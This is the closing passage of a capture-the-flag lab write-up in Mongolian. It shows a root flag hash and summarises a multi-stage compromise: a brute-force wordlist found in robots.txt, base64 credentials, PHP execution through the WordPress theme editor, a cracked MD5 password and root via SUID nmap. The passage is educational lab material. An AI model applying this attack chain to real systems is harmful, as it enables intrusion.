

##  ROOT FLAG

Root эрхтэй болсны дараа root-ийн гэрийн директороос сүүлийн буюу гуравдугаар түлхүүрийг олсон:

```
04787ddef27c3dee1ee161b21670b4e4
```



##  ДҮГНЭЛТ

Энэхүү машин нь олон үе шаттай, нэлээд нарийн төвөгтэй эвдлэлтийн жишээ юм: `/robots.txt`-д үлдээсэн үгийн сан файл нь brute-force хийх материал болж, `/license` хуудсанд base64 кодлогдсон нэвтрэх мэдээлэл нуугдаж байв. WordPress-ийн Theme Editor функц нь админ эрхтэй хэрэглэгчид шууд PHP код ажиллуулах боломж олгосон нь анхны shell авахад хүргэв. Харин нууц үгийн файлыг сул MD5 хашаар хамгаалсан нь хэрэглэгчийн шилжилтийг хялбарчилж, эцэст нь SUID bit тохируулагдсан `nmap` хэрэгсэл нь нэмэлт эксплойт шаардалгүйгээр root эрх авахад шууд хүргэсэн. Энэ нь веб аппликейшны тохиргоо, нууц үгийн хамгаалалт, мөн SUID файлуудын менежмент хэрхэн зэрэгцэн чухал болохыг харуулсан иж бүрэн жишээ юм.
